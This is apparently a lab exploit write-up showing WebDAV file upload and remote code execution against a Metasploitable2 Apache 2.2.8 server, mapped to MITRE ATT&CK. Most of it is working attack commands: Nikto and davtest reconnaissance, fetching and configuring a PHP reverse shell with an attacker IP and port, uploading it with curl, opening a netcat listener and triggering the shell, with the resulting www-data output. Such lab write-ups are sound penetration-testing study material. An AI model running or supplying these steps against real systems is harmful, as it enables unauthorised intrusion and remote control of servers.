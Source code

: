 # Exploit Title: WebDAV File Upload & Remote Code Execution (php-reverse-shell)
## Target: Metasploitable2 - Apache/2.2.8 with WebDAV enabled
## Date: [Insert Date]
## Author: George Lazai
## MITRE ATT&CK Technique: T1190 - Exploit Public-Facing Application

---

## Summary

This exploit targets a misconfigured WebDAV service running on Apache 2.2.8 that allows unauthenticated file uploads and execution of `.php` scripts. We use this misconfiguration to upload a malicious PHP reverse shell and gain remote shell access on the target.

---

## Step-by-Step Exploit Process

###  Step 1: Service Discovery

Using Nikto, we discovered `/dav/` as a WebDAV-enabled path:

bash
nikto -h http://192.168.6.3

### Step 2: WebDAV Verification
We used davtest to verify file upload and execution support:

davtest -url http://192.168.6.3/dav

Result: Upload:  Success

Execution: .php  Success

### Step 3: Prepare Reverse Shell

Downloaded php-reverse-shell.php from Pentestmonkey:

wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

Modified the file: 
$ip = '192.168.6.4';    // Our attacker's IP
$port = 4444;           // Port to listen on

### Step 4: Upload Shell

Uploaded the PHP reverse shell to the WebDAV directory:

curl -T php-reverse-shell.php http://192.168.6.3/dav/DavTestDir_<random>/php-reverse-shell.php

###  Step 5: Set Up Listener

On attacker's machine:

nc -lvnp 4444

### Step 6: Trigger Reverse Shell

In browser or via curl:

curl http://192.168.6.3/dav/DavTestDir_<random>/php-reverse-shell.php

Result:

Reverse shell successfully opened:

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
(See available screenshot)

Notes
WebDAV was confirmed using http-methods Nmap script:

nmap -p 80 --script http-methods --script-args http-methods.url-path='/dav/' 192.168.6.3
PHP execution was enabled on /dav/.

This exploit demonstrates Remote Code Execution (RCE) through WebDAV misconfiguration.

MITRE ATT&CK Mapping

Tactic	Technique
Initial Access	T1190 - Exploit Public-Facing Application
Execution	T1059.009 - Command and Scripting Interpreter: PHP